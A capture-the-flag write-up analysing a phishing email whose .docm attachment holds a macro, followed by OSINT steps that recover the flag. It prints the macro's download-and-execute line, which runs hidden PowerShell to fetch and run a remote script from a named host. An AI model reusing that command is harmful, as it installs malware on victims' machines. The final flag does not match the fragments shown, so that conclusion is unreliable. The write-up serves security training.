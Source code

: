 ### InfraBroken :

# Description :

>An attacker sends a phishing email disguised as a legitimate notification about a package arrival. The email instructs the recipient to click on a link to view an invoice and product details, which is actually a malicious attempt to steal sensitive information or install malware on the victim's machine !!!

> Author : Mr_Togoo

> Attachments : [crime.eml](https://www.mediafire.com/file/lcso0oy3pjqo3kd/crime.eml/file)

During the analysis of the email, we identified the user who sent the email and the link to the document.



    1- user : aymanetogoo@gmail.com
    2- document : Product_details.docm


[![email.png](https://i.postimg.cc/Gpxs9f2c/email.png)](https://postimg.cc/zL3fc0KM)



    We installed the document Product_details.docm and analyzed it with 'olevba'.



[![Product.png](https://i.postimg.cc/tRZWN2vz/Product.png)](https://postimg.cc/hhnXSbBJ)


We obtained this output:

`Set objShell = CreateObject("WScript.Shell")
`objShell.Run "cmd.exe /c powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command iex (New-Object Net.WebClient).DownloadString('http://bericht-belastingdienst.com/good_news.vbs')", 0, False`

1. When checking the reputation of the domain bericht-belastingdienst.com, we found it to be very malicious.

[![virustotal.png](https://i.postimg.cc/CKzWx3J8/virustotal.png)](https://postimg.cc/d7cWWSbQ)
And here, we obtained the first part of the flag.

`CSP{5om3tim35_th3_thing5`


2. Now, we need to check the user who sent the email and perform some OSINT to see if they have other social media accounts.
   
   

[![github.png](https://i.postimg.cc/XJ5mw9R7/github.png)](https://postimg.cc/9RWL2wXv)
3. So, he has a GitHub account and a repository named `Important`
   

[![github2.png](https://i.postimg.cc/pd43hs16/github2.png)](https://postimg.cc/d7R5gjF2)

[![github3.png](https://i.postimg.cc/T1XSQpxj/github3.png)](https://postimg.cc/62YYp6yT)
4.  When you enter GitHub, you don't find the flag immediately. You need to check the history of the comments to find it.

   `_4r3_34Sy_but_l4h_yhdin4}`

5. So, the full flag is

FLAG : 
>CSP{DN5_G00D_T0_3XF1L7R3_V1A_53CUR3_CH4NN3L5_4ND_L4H_YT9ABL_SY4MNA}

**Note** : These pieces of information were not found because I removed my comment in VirusTotal and the user on GitHub.
